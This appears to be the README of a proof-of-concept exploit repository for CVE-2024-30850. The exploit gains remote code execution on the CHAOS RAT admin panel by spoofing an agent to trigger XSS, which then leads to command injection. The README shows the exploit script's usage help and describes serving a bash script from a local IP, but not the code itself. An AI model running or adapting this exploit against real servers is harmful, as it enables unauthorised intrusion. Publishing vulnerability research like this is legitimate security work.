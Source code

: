 https://github.com/chebuya/CVE-2024-30850-chaos-rat-rce-poc/assets/146861503/ac03c8c7-54b3-4280-9f29-719c44af5192
# CHAOS RAT web panel RCE
https://github.com/tiagorlampert/CHAOS <br>

This exploit works by spoofing a agent callback for an XSS, and leveraging the XSS to exploit a command injection vulnerability in the admin web panel.  This leads to compromise of the RAT server and rickrolling of RAT panel operators.

Full explaination: https://blog.chebuya.com/posts/remote-code-execution-on-chaos-rat-via-spoofed-agents/ <br>

```
python3 exploit.py exploit -h                                                               
usage: exploit.py exploit [-h] [-f FILE] [-t TARGET] [-c COMMAND] [-v VIDEO_NAME] [-j JWT] -l LOCAL_IP [-p LOCAL_PORT] [-H HOSTNAME] [-u USERNAME] [-o OS]
                          [-m MAC] [-i IP]

options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  The path to the CHAOS client
  -t TARGET, --target TARGET
                        The url of the CHAOS server (127.0.0.1:8080)
  -c COMMAND, --command COMMAND
                        The command to use
  -v VIDEO_NAME, --video-name VIDEO_NAME
                        The video name to use
  -j JWT, --jwt JWT     The JWT token to use
  -l LOCAL_IP, --local-ip LOCAL_IP
                        The local IP to use for serving bash script and mp4
  -p LOCAL_PORT, --local-port LOCAL_PORT
                        The local port to use for serving bash script and mp4
  -H HOSTNAME, --hostname HOSTNAME
                        The hostname to use for the spoofed client
  -u USERNAME, --username USERNAME
                        The username to use for the spoofed client
  -o OS, --os OS        The OS to use for the spoofed client
  -m MAC, --mac MAC     The MAC address to use for the spoofed client
  -i IP, --ip IP        The IP address to use for the spoofed client
```
